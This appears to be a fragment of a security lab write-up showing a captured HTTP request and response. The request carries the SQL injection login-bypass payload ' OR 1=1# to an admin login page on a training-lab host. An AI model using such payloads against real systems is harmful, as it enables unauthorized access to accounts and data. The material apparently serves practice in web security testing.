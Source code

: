 `HTTP Request`:
```http
POST /admin/staff.php📌 HTTP/2
Host: cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=toer16kmusdfk6ijfaf0nha4n1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: https://cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com
Referer: https://cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com/admin/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

user=' OR 1=1#&pass=TEST123&Submit22=+Login+📌
```
`HTTP Response`:
```http
HTTP/2 200 OK📌
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Content-Type: text/html
Date: Tue, 10 Dec 2024 22:28:55 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Content-Length: 12560

[...]
```
